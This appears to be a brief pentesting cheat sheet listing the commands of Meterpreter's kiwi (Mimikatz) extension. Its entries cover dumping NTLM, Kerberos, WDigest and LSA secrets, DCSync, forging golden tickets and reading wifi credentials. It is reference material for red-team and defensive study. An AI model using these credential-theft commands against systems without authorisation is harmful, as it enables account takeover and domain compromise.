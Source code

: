 # Mimikatz in Meterpreter

## import
load kiwi


## kiwi commands

      'kiwi_cmd'              => 'Execute an arbitary mimikatz command (unparsed)',
      'dcsync'                => 'Retrieve user account information via DCSync (unparsed)',
      'dcsync_ntlm'           => 'Retrieve user account NTLM hash, SID and RID via DCSync',
      'creds_wdigest'         => 'Retrieve WDigest creds (parsed)',
      'creds_msv'             => 'Retrieve LM/NTLM creds (parsed)',
      'creds_ssp'             => 'Retrieve SSP creds',
      'creds_livessp'         => 'Retrieve Live SSP creds',
      'creds_tspkg'           => 'Retrieve TsPkg creds (parsed)',
      'creds_kerberos'        => 'Retrieve Kerberos creds (parsed)',
      'creds_all'             => 'Retrieve all credentials (parsed)',
      'golden_ticket_create'  => 'Create a golden kerberos ticket',
      'kerberos_ticket_use'   => 'Use a kerberos ticket',
      'kerberos_ticket_purge' => 'Purge any in-use kerberos tickets',
      'kerberos_ticket_list'  => 'List all kerberos tickets (unparsed)',
      'lsa_dump_secrets'      => 'Dump LSA secrets (unparsed)',
      'lsa_dump_sam'          => 'Dump LSA SAM (unparsed)',
      'password_change'       => 'Change the password/hash of a user',
      'wifi_list'             => 'List wifi profiles/creds for the current user',
      'wifi_list_shared'      => 'List shared wifi profiles/creds (requires SYSTEM)',